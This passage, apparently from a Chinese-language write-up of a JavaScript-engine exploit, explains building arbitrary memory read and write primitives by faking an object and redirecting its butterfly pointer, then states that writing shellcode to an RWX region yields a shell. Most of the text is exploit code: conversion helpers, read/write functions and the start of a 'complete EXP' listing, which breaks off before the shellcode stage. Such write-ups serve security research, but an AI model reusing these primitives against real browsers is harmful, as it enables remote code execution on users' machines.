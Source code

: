 ```
function p64(low,high)
`{`
dv.setUint32(0,low,true);
dv.setUint32(4,high,true);
var float_val=dv.getFloat64(0,true);
return float_val;
`}`
```

• 这里的构造也及其简单,首先让a4的butterfly等于类型转换后想要读的地址，然后在用a4根据对应的数组下标去读，而修改a4的bufferfly ，我们通过a3去修改。

• 任意写也是类似的，注意这里没有涉及到jsvalue编码的原因是我们声明的对象数组是unbox的，所以写的时候是直接可以通过写的，不会被jsvalue编码。

```
function read(addr)`{`
a3[1]=p64(b2l(addr),b2h(addr))
return u64(a4[0]);
`}`
function write(addr,val)`{`
a3[1]=p64(b2l(addr),b2h(addr));
a4[0]=val;
`}`
```

然后后面就是找到rwx地址，写入shellcode运行就可以getshell了。



**完整EXP**

```
var tmp_buf = new ArrayBuffer(8)
var f64 = new Float64Array(tmp_buf)
var u32 = new Uint32Array(tmp_buf)
var BASE = 0x100000000
function f2i(f) `{`
f64[0] = f
return u32[0] + BASE*u32[1]
`}`
function i2f(i) `{`
u32[0] = i % BASE
u32[1] = i / BASE
return f64[0]
`}`
function hex(addr)`{`
return addr.toString(16);
`}`
function leak(name,addr)`{`
print("[+] "+name+"==&gt;0x"+hex(addr))
`}`
var container=`{`
fake_cell:1.1,
butt:1.1
`}`
var a1=`{`a:2.2,b:3.2,c:4.2,d:5.2,e:5.2,f:0.0,g:1.1,h:1.1,i:1.1,a0:1.1,a1:1.1,a2:1.1,a3:1.1,a4:1.1,a5:1.1,a6:1.1,a7:1.1,a8:1.1,a9:1.1,a10:1.1,a11:1.1,a12:1.1,a13:1.1,a14:1.1,a15:1.1,a16:1.1,a17:1.1,a18:1.1,a19:1.1,a20:1.1,a21:1.1,a22:1.1,a23:1.1,a24:1.1,a25:1.1,a26:1.1,a27:1.1,a28:1.1,a29:1.1,a30:1.1,a31:1.1,a32:1.1,a33:1.1,a34:1.1,a35:1.1,a36:1.1,a37:1.1,a38:1.1,a39:1.1,a40:1.1,a41:1.1,a42:1.1,a43:1.1,a44:1.1,a45:1.1,a46:1.1,a47:1.1,a48:1.1,a49:1.1,a50:1.1,a51:1.1,a52:1.1,a53:1.1,a54:1.1,a55:1.1,a56:1.1,a57:1.1,a58:1.1,a59:1.1,a60:1.1,a61:1.1,a62:1.1,a63:1.1,a64:1.1,a65:1.1,a66:1.1,a67:1.1,a68:1.1,a69:1.1,a70:1.1,a71:1.1,a72:1.1,a73:1.1,a74:1.1,a75:1.1,a76:1.1,a77:1.1,a78:1.1,a79:1.1,a80:1.1,a81:1.1,a82:1.1,a83:1.1,a84:1.1,a85:1.1,a86:1.1,a87:1.1,a88:1.1,a89:1.1,a90:1.1,a91:1.1,a92:1.1,a93:1.1,a94:1.1,a95:1.1,a96:1.1,a97:1.1,a98:1.1,a99:1.1,`}`;
var a2=[1.1];//double
var a3=[`{``}`];//obj
var a4=[1.1];//double ｜
a4[0]=1.1
```